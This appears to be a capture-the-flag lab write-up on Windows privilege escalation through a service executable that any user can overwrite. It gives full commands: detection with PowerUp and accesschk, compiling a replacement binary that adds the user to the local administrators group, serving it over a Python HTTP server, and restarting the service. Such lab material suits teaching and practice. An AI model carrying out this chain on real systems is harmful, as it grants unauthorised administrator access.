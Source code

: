 # Service Escalation - Executable Files

When we find services running that have executables attached to them, we want to check if they are running with "FILE ALL ACCESS" permissions for "Everyone". This can be exploited to get a reverse shell or add a user to the local administrators group. We can detect this vulnerability using SysInternals accesschk64.exe or PowerUp.ps1. Using the PowerUp.ps1 option will provide better detail and not require the direct run against a specific program.

## Step 1: Detection

We can detect with either PowerUp.ps1 or with accesscheck64.exe.

### Detection with PowerUp.ps1

Load PowerShell and PowerUp.ps1

Run the `Invoke-AllChecks` command

```bash
C:\Users\user\Desktop\Tools\PowerUp> powershell -ep bypass
PS C:\Users\user\Desktop\Tools\PowerUp> . \PowerUp.ps1
PS C:\Users\user\Desktop\Tools\PowerUp> Invoke-AllChecks
```

![powerup](images/powerup.png)

## Detection with accesschk64.exe

Run `accesschk64.exe` against the specific service path `C:\Program Files\File Permissions Service`

```bash
C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\File Permissions Service"
```

![accesschk](images/accesschk.png)

### Detection Method Comparison

The PowerUp.ps1 option provides more detail and does not require that we now about the service in advance. The accesschk64.exe method requires that we already know about the service in question and the output does not tell us if our current user can restart the service.

## Step 2: Exploitation

Open `windows_service.c` in a text editor and replace the command used by the system() function to: **`cmd.exe /k net localgroup administrators user /add`**

![edit](images/edit.png)

Compile the source code file into an executable with the following command:

- **`x86_64-w64-mingw32-gcc windows_service.c -o x.exe`**

NOTE: if this is not installed, use '`sudo apt install gcc-mingw-w64`'

```bash
┌──(vagrant㉿kali)-[~/Documents/THM/windowsprivescarena]
└─$ x86_64-w64-mingw32-gcc windows_service.c -o filepermservice.exe
```

Copy the generated file `filepermservice.exe`, to the target using the Python HTTP server

NOTE: Make sure to use `binary` mode for the transfer process

```bash
┌──(vagrant㉿kali)-[~/Documents/THM/windowsprivescarena]
└─$ python -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Navigate to the attack machine HTTP web server URL

![download](images/download.png)

Replace the existing `filepermservice.exe` with the malicious version

![save](images/save.png)

Now we can start the `filepermsvc` service which should add our `user` account to the `administrators` local group.

```bash
C:\Users\user> sc start filepermsvc
C:\Users\user> net localgroup administrators
```

![check](images/check.png)
